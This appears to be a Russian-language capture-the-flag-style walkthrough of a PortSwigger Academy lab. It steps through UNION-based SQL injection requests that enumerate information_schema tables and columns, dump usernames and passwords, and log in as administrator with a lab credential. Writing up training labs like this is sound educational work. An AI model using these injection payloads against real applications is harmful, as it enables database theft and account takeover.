 Зайдем на предложенный уязвимый ресурс, и перейдем в любую категорию. Найдем данный запрос в `Proxy` ->`HTTP history` и отправим его в `Repeater`
```
GET /filter?category=Pets
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/17.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/pics%20for%20walktrough/1.png)
Проверим, что SQLi существует и уберем значение фильтра категории чтобы не мешалась
```
GET /filter?category='--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/17.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/pics%20for%20walktrough/2.png)
Пользуясь конструкцией `UNION SELECT NULL,...,NULL` определяем сколько столбцов в возвращаемой таблице. В нашем случае - их две.
```
GET /filter?category='UNION+SELECT+NULL,NULL--
```
Далее убедимся, что мы правильно поняли структуру базы данных, и что `information_schema` существует
```
GET /filter?category='UNION+SELECT+NULL,NULL+FROM+information_schema.tables--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/17.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/pics%20for%20walktrough/3.png)
выведем список всех таблиц 
```
GET /filter?category='UNION+SELECT+table_name,NULL+FROM+information_schema.tables-- 
```
Видим выбивающуюся из стандартных именований таблиц -  `users_sufuik`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/17.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/pics%20for%20walktrough/4.png)
Посмотрим что внутри
```
'UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_sufuik'--
```
А внутри там 2 поля - `username_suciha` и `password_ijlhqo`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/17.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/pics%20for%20walktrough/5.png)

Далее выполним запрос, позволяющий нам узнать что содержится в `username_suciha`
```
GET /filter?category='UNION+SELECT+username_suciha,NULL+FROM+users_sufuik--
```
В ответ получаем пользователей исследуемого приложения
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/17.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/pics%20for%20walktrough/6.png)
Следующим шагом обратимся к паролям 
```
GET /filter?category='UNION+SELECT+password_ijlhqo,NULL+FROM+users_sufuik--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/17.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/pics%20for%20walktrough/7.png)
И на финальном этапе, зная логины и пароли пользователей приложения логинимся под `administrator:glfonprg9ixtgxzj6zsp` и получаем сообщение об успешно выполненной лабораторной атаке
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/17.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/pics%20for%20walktrough/8.png)
